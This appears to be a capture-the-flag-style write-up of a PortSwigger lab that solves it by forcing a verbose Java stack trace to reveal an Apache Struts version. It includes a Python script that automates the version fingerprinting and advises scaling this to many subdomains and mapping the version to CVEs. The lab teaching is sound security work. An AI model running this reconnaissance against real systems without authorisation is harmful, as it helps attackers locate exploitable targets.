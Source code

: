 # 🧠 When Servers Overshare: Sniping Apache Struts with a Simple String Injection

**Author: Aditya Bhatt**
**Category: Web App Hacking | Recon | Info Disclosure | CVE Enumeration**

---

## 📜 Prelude to a Leak

Some bugs scream. Others whisper.

This one? It *accidentally drops its whole backend résumé* just because I threw a string into a parameter that expected a good ol’ integer. 💥

Today, I’ll walk you through **how I turned a bad typecast into a full-on reconnaissance goldmine**, discovered Apache Struts 2.3.31, and solved the PortSwigger lab with the swagger of a bounty hunter in a trench coat.

But wait… we’re not stopping at the PoC.
You’ll also get a **Python script to automate the whole shebang.** Let’s twist it up, automate the intel grab, and make devs cry (ethically, of course 🫡).

![Cover](https://github.com/user-attachments/assets/ced86192-c81b-4b11-95df-0eec8de711e9) <br/>

---

## 🕹️ TL;DR of the Attack

We take a `productId` endpoint, feed it malformed input (a string instead of an int), and the app coughs up a verbose error message containing its internal framework version.

We collect that info and submit it to solve the lab.
Simple, elegant, and deliciously leaky.

---

## ⚔️ Step-by-Step PoC (with 🗿 energy)

1. Go to Lab: [Burp Lab - Info Leak via Error Messages](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-error-messages). Open any product and capture the request.

![1](https://github.com/user-attachments/assets/63564d4b-edb7-4862-89de-f5356a5876ac) <br/>

2. Send `GET /product?productId=5` to Repeater.

![2](https://github.com/user-attachments/assets/5dbf3139-3a08-44fa-909c-f07312f370c7) <br/>

3. Observe the normal response. Yawn. 😴

![3](https://github.com/user-attachments/assets/bb5c7ef6-72b0-42bc-b9eb-ecfac8e571b0) <br/>

4. Now swap `5` with `"example"` → `productId="example"` and boom — 💥 full Java stack trace drops in your lap.

![4](https://github.com/user-attachments/assets/e353c281-1be2-48d2-bb79-595dfd29a3ee) <br/>

In the stack trace, we spot the vulnerable tech:
   **`Apache Struts 2 2.3.31`**
   
5. Submit this version in the lab.

![5](https://github.com/user-attachments/assets/9de6d6c2-7a87-4b52-ae15-fbd9d0b07532) <br/>

6. You just solved it. Now imagine doing this across 200 subdomains. That’s bug bounty artillery right there. 🚀

![6](https://github.com/user-attachments/assets/f555d51c-72da-4194-b8e0-59de7f407c7c) <br/>

---

## 🤖 Automation Script: Lab Destroyer 9000™

Here’s your script to *automate the whole lab*. Just plug in the **lab URL**, and it’ll throw a string payload, catch the error, extract the version, and print it like a true recon master.

> **⚠️ NOTE**: Make sure you’re logged into your PortSwigger Academy session in the same browser session (or use the session cookie in this script).

```python
import requests
import re

# 🔧 CONFIG
LAB_URL = "https://YOUR-LAB-ID.web-security-academy.net/product?productId="
PAYLOAD = '"injection"'

# 🧠 HEADERS (Optionally add your session cookie if needed)
headers = {
    "User-Agent": "Mozilla/5.0",
    # "Cookie": "session=YOUR_SESSION_HERE"
}

# 🚀 MAKE THE REQUEST
def extract_version():
    try:
        print(f"[+] Sending request to: {LAB_URL}{PAYLOAD}")
        response = requests.get(LAB_URL + PAYLOAD, headers=headers, timeout=10)

        if response.status_code == 200:
            # 🧙 Regex magic to find Apache Struts version
            match = re.search(r'Apache Struts 2(?:\.| )([0-9]+\.[0-9]+\.[0-9]+)', response.text)
            if match:
                version = "2." + match.group(1)
                print(f"[🎯] Apache Struts version disclosed: {version}")
                return version
            else:
                print("[-] No version info found. Maybe lab is patched or wrong URL.")
        else:
            print(f"[-] Unexpected response code: {response.status_code}")

    except Exception as e:
        print(f"[!] Exception occurred: {e}")

# 🔍 Run the extractor
if __name__ == "__main__":
    extract_version()
```

---

## 💭 Real World Implications

* That one version string? It’s a **fingerprint**.
* Apache Struts is notorious for **RCEs like CVE-2017-5638** — the Equifax breach? Yeah, it started with something like this.
* Once you know the version, you can map it against CVEs and craft custom exploits or pivot further.

---

## 🔐 Defensive Juju

* Never expose internal stack traces to the user.
* Catch your exceptions, log them server-side, and serve generic 500 pages to users.
* Use a WAF or RASP to detect parameter fuzzing.

---

## 🧠 Final Thoughts

Information disclosure is a **gateway bug**.
It rarely gives you root access upfront, but it **opens the door** to version detection, CVE chaining, and attack surface expansion. Every recon artist’s dream.

When in doubt, just toss in the wrong input and let the server do the talking.

---
